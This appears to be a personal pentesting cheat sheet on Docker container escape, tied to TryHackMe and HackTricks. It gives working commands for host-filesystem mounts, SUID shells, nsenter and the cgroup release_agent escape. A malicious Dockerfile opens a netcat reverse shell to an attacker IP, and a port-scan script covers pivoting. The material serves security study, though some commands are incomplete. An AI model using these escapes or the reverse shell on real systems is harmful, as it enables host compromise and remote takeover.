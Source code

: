 # Docker Hacking


For basic information about docker try here: [[Intro-To-Docker]].
Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

-   Namespaces - segregate system resources such as processes, files, and memory away from other namespaces.
-   Cgroups - Cgroups are used by containerization software such as LXC or Docker
-   OverlayFS

Typically you are trying to escape from a  container and general these escapes stem from misconfigurations of the container from services or access controls.

## How to know when you are in a container?
[pspy](https://github.com/DominicBreuker/pspy) on Linux or Systernals proc\*-related tools or access with tasklist for windows.
```bash
.dockerenv
ps aux # Lack of processes

cat /proc/1/cgroup 
cat /proc/1/cgroup | grep docker
```

Check for mount misconfigurations
```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.

# Mounted Socket Escape
# Search the socket
find / -name docker.sock 2>/dev/null
# It's usually in /run/docker.sock

```

[Deepce](https://github.com/stealthcopter/deepce.git) is like PEAS-NG for Docker

Docker has a socket [[Networks/Network-Protocols]] on 5000 so that another host can send commands to it, not default, but possible.


## Preface
Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

Docker Commands
```bash
RUN echo "Docker"
COPY 
````
For full list see [Commands](https://docs.docker.com/engine/reference/commandline/cli/)

##  Docker Enumeration

On target machine enumerate the lay of the land:
```bash
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls
```

## Inside a Docker Image?
```bash
# Check routing
ip a
```

[cli Tool](https://github.com/containers/skopeo)

## GTFOBins/docker

```bash
docker images ls # list images required
```
[gtofbins](https://gtfobins.github.io/gtfobins/docker/#shell)

## Accessing Docker Container and exec..
```
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh
```

## Abusing Docker Registry

[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registeries contain variouses called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

## Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

## Uploading Malicious Docker Images
Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Shared Namespaces

Namespaces segregate system resources. Have root access inside the container or potential use pspy. Find a namespace
```bash
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```
nsenter --target $PID --mount sh
```

## Misconfigured Privileges
If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out greppables indicate privilege mode. [PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## No ping and you need to pivot

Q: What is the Default Gateway for the Docker Container?

Use `/dev/tcp/ipaddr/port` or python

```bash
#!/bin/bash   
ports=(21 22 53 80 443 3306 8443 8080)   
for port in ${ports[@]}; do   
	timeout 1 
	bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"    
done
```


```python
#!/usr/bin/python3
import socket
host = "1.1.1.1"
portList = [21,22,53,80,443,3306,8443,8080]
for port in portList:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            s.connect((host,port))
            print("Port ", port, " is open")
        except:
            print("Port ", port, " is closed")
```

Netcat
`nc -zv 192.168.100.1 1-65535`

## References

[Docker](https://docs.docker.com/get-started/overview/)
[THM Room Docker Rodeo](https://tryhackme.com/room/dockerrodeo)
[trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
[cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
[Commands](https://docs.docker.com/engine/reference/commandline/cli/)
[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)